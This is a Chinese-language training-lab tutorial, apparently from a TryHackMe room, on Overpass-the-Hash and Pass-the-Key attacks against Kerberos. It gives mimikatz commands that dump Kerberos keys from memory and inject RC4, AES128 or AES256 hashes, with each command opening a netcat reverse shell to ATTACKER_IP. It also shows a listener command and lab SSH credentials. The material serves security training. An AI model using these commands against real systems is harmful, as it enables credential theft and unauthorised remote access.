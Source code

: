 ### 越过哈希（Overpass-the-Hash）/ 传递密钥（Pass-the-Key）

这种攻击类似于 PtH，但应用于 Kerberos 网络。

当用户请求 TGT 时，他们会发送一个使用从其密码派生的加密密钥加密的时间戳。用于派生此密钥的算法可以是 DES（在当前 Windows 版本中默认禁用），RC4，AES128 或 AES256，具体取决于安装的 Windows 版本和 Kerberos 配置。如果我们拥有其中任何一个密钥，我们可以向 KDC 请求 TGT，而无需实际密码，因此称为传递密钥（PtK）。

我们可以使用 mimikatz 从内存中获取 Kerberos 加密密钥，具体命令如下：

```shell
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

根据可用的密钥，我们可以在 mimikatz 中运行以下命令通过传递密钥获取反向 Shell（nc64 已经在 THMJMP2 中提供，为方便起见）：

#### 如果我们有 RC4 哈希

```shell
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

#### 如果我们有 AES128 哈希

```shell
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

#### 如果我们有 AES256 哈希

```shell
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

:::tip

请注意，当使用 RC4 时，密钥将等于用户的 NTLM 哈希。这意味着如果我们可以提取 NTLM 哈希，只要 RC4 是启用的协议之一，我们就可以使用它来请求 TGT。这种特定变体通常被称为越过哈希（Overpass-the-Hash，OPtH）。

:::

要接收反向 Shell，我们应该在我们的 AttackBox 上运行一个反向监听器：

```shell title="AttackBox"
user@AttackBox$ nc -lvp 5556
```

就像 PtH 一样，从这个 Shell 运行的任何命令都将使用通过 mimikatz 注入的凭据。

### 让我们开始吧

要开始这个练习，您需要使用以下凭据通过 SSH 连接到 THMJMP2：

- User: ZA.TRYHACKME.COM\t2_felicia.dean
- Password: iLov3THM!

```shell
ssh za\\t2_felicia.dean@thmjmp2.za.tryhackme.com
```
